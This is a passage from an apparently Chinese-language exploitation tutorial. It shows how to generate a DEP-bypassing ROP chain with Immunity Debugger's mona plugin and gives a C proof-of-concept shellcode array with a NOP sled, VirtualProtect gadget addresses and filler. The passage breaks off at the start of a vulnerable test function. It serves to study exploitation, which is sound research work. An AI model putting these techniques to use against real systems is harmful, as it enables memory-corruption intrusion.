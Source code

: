 使用mona插件自动生成rop链，输入：

`!mona rop -m *.dll -cp nonull`

如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-3-10/2-32.png)

mona会搜寻所有的DLL，用于构造rop链

执行命令后在C:\Program Files\Immunity Inc\Immunity Debugger下生成文件rop.txt、rop_chains.txt、rop_suggestions.txt、stackpivot.txt

查看rop_chains.txt，会列出可用来关闭DEP的ROP链，选择VirtualProtect()函数

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-3-10/2-4.png)

如上图，成功构建ROP链

**注：**

不同环境有可能无法获得完整参数，需要具体环境具体分析

对应的测试poc修改如下：

```
unsigned int shellcode[]=
{     
      0x90909090,0x90909090,0x90909090,0x90909090,
      0x90909090,0x90909090,0x90909090,0x90909090,
	  0x90909090,0x90909090,0x90909090,0x90909090,
	  0x90909090,
      0x77217edd,  // POP EAX // RETN [kernel32.dll] 
      0x77171910,  // ptr to &VirtualProtect() [IAT kernel32.dll]
      0x75d7e9dd,  // MOV EAX,DWORD PTR DS:[EAX] // RETN [KERNELBASE.dll] 
      0x779f9dca,  // XCHG EAX,ESI // RETN [ntdll.dll] 
      0x779cdd30,  // POP EBP // RETN [ntdll.dll] 
      0x75dac58d,  // & call esp [KERNELBASE.dll]
      0x693a7031,  // POP EAX // RETN [MSVCR110.dll] 
      0xfffffdff,  // Value to negate, will become 0x00000201
      0x69354484,  // NEG EAX // RETN [MSVCR110.dll] 
      0x75da655d,  // XCHG EAX,EBX // ADD BH,CH // DEC ECX // RETN 0x10 [KERNELBASE.dll] 
      0x69329bb1,  // POP EAX // RETN [MSVCR110.dll] 
      0x41414141,  // Filler (RETN offset compensation)
      0x41414141,  // Filler (RETN offset compensation)
      0x41414141,  // Filler (RETN offset compensation)
      0x41414141,  // Filler (RETN offset compensation)
      0xffffffc0,  // Value to negate, will become 0x00000040
      0x69354484,  // NEG EAX // RETN [MSVCR110.dll] 
      0x771abd3a,  // XCHG EAX,EDX // RETN [kernel32.dll] 
      0x6935a7c0,  // POP ECX // RETN [MSVCR110.dll] 
      0x693be00d,  // &Writable location [MSVCR110.dll]
      0x779a4b9a,  // POP EDI // RETN [ntdll.dll] 
      0x69354486,  // RETN (ROP NOP) [MSVCR110.dll]
      0x693417cb,  // POP EAX // RETN [MSVCR110.dll] 
      0x90909090,  // nop
      0x69390267,  // PUSHAD // RETN [MSVCR110.dll] 
	  	
      0x9059016A,  //PUSH 1  // POP ECX // NOP
      0x90909090,
      0x90909090,
      0x90909090,
      0x90909090
};
void test()
{
	char buffer[48];	
	printf("3\n");
```